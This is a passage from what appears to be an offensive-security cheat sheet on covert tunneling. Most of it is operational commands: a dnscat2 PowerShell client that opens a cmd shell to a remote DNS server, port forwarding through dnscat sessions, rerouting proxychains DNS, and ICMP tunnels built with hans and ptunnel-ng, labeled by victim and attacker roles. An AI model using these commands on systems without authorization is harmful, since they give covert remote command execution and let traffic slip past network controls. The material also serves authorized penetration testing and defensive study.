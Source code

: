 You can use [**dnscat2-powershell**](https://github.com/lukebaggett/dnscat2-powershell) to run a dnscat2 client in powershell:

```
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.10.10 -Domain mydomain.local -PreSharedSecret somesecret -Exec cmd
```

#### **Port forwarding with dnscat**

```bash
session -i <sessions_id>
listen [lhost:]lport rhost:rport #Ex: listen 127.0.0.1:8080 10.0.0.20:80, this bind 8080port in attacker host
```

#### Change proxychains DNS

Proxychains intercepts `gethostbyname` libc call and tunnels tcp DNS request through the socks proxy. By **default** the **DNS** server that proxychains use is **4.2.2.2** (hardcoded). To change it, edit the file: _/usr/lib/proxychains3/proxyresolv_ and change the IP. If you are in a **Windows environment** you could set the IP of the **domain controller**.

## Tunnels in Go

[https://github.com/hotnops/gtunnel](https://github.com/hotnops/gtunnel)

## ICMP Tunneling

### Hans

[https://github.com/friedrich/hans](https://github.com/friedrich/hans)\
[https://github.com/albertzak/hanstunnel](https://github.com/albertzak/hanstunnel)

Root is needed in both systems to create tun adapters and tunnel data between them using ICMP echo requests.

```bash
./hans -v -f -s 1.1.1.1 -p P@ssw0rd #Start listening (1.1.1.1 is IP of the new vpn connection)
./hans -f -c <server_ip> -p P@ssw0rd -v
ping 1.1.1.100 #After a successful connection, the victim will be in the 1.1.1.100
```

### ptunnel-ng

[**Download it from here**](https://github.com/utoni/ptunnel-ng.git).

```bash
# Generate it
sudo ./autogen.sh

# Server -- victim (needs to be able to receive ICMP)
sudo ptunnel-ng
# Client - Attacker
sudo ptunnel-ng -p <server_ip> -l <listen_port> -r <dest_ip> -R <dest_port>
# Try to connect with SSH through ICMP tunnel
ssh -p 2222 -l user 127.0.0.1
# Create a socks proxy through the SSH connection through the ICMP tunnel
ssh -D 9050 -p 2222 -l user 127.0.0.1
```
